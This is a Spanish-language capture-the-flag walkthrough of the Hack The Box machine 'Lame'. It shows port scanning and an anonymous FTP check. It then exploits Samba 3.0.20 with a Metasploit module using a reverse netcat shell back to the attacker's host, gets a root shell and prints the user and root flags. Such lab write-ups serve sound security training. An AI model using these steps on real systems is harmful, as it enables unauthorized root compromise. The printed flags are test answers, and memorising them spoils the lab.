 # MÁQUINA LAME
En el siguiente documento se describe la resolución de la máquina Lame, de nivel fácil. 

**URL**: https://app.hackthebox.com/machines/Lame

## ENUMERACIÓN 
Realizamos un escaneo de puertos inicial. 
```
> nmap -sV -sC 10.10.10.3
```
- sV: para obtener la versión de los servicios encontrados. 
- sC: para ejecutar scripts de enumeración, nos proporciona información adicional de cada servicio encontrado.

Obtenemos lo siguiente:
```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.85
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m52s, deviation: 2h49m45s, median: 49s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-06-26T14:35:27-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

De esta información nos quedamos con que hay 4 puertos abiertos, corriendo los siguientes servicios:

| Puerto      | Servicio  | Detalles adicionales        |  
|-------------|-----------|-----------------------------|  
| 21          | FTP       | Anonymous FTP login allowed |  
| 22          | SSH       | -                           |  
| 139, 445    | Samba     | -                           |  


<br>

# FTP
Del escaneo hemos observado que se permite el login anónimo (username: anonymous, contraseña: *en blanco*). Así que probaremos a conectarnos al servidor y obtener un listado de los ficheros publicados. 

```
> ftp 10.10.10.3
> Name (10.10.10.3:kali): anonymous
> Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
Usamos *ls* para listar archivos, pues el sistema operativo es UNIX.
```
ftp> ls
229 Entering Extended Passive Mode (|||56188|).
150 Here comes the directory listing.
226 Directory send OK.
```
No hay archivos publicados al parecer.

<br>

# SMB
Del script también vimos que estaba corriendo el servicio Samba (smbd). Vamos a explorar vulnerabilidades en esta otra parte: usaremos metasploit para buscar vulnerabilidades y, en caso de encontrarlas, explotarlas. 

Abrimos *msfconsole*. 
```
> msfconsole
```
Una vez dentro, buscamos vulnerabilidades por el nombre del servicio y la versión.
```
msf6 > search Samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution

```
Hemos encontrado una vulnerabilidad. Vamos a explotarla. <br> 
Escribimos *use* y el nombre del módulo. 
```
msf6 > use exploit/multi/samba/usermap_script
msf6 exploit(multi/samba/usermap_script) > 
```

*Show options* para ver cómo rellenar los datos.
```
> show options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type
                                       :host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metaspl
                                       oit.com/docs/using-metasploit/basics/using-m
                                       etasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.16.85     yes       The listen address (an interface may be specif
                                     ied)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

RHOSTS es obligatorio rellenarlo y por el momento está vacío. Escribimos la dirección IP de la máquina víctima.
```
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
```

Si escrimos *show options* de nuevo vemos que ya aparece RHOSTS relleno.
```
> show options
```
```
Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type
                                       :host:port][...]
   RHOSTS   10.10.10.3       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)
```

Ya tenemos todos los datos obligatorios *(required)* rellenos, así que podemos lanzar el exploit. 
```
>  run

[*] Started reverse TCP handler on 10.10.16.85:4444 
[*] Command shell session 1 opened (10.10.16.85:4444 -> 10.10.10.3:40079) at 2025-06-26 16:46:19 -0400

whoami
root

```
Como podemos ver, tenemos acceso directamente como root. <br>
Procedemos a navegar por los archivos de la máquina víctima hasta encontrar las flags. 
```
cd /home/
ls
ftp
makis
service
user
cd user
ls
cd ..
cd makis
ls
user.txt
cat user.txt
2600568262a5ef963f276641456e7b13
```
```
cd root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
cat root.txt
0a7442657fd3582910845ced12d42660
```
<br>
Encontradas las 2 flags: 

- **Flag de usuario:** 2600568262a5ef963f276641456e7b13
- **Flag de root:** 0a7442657fd3582910845ced12d42660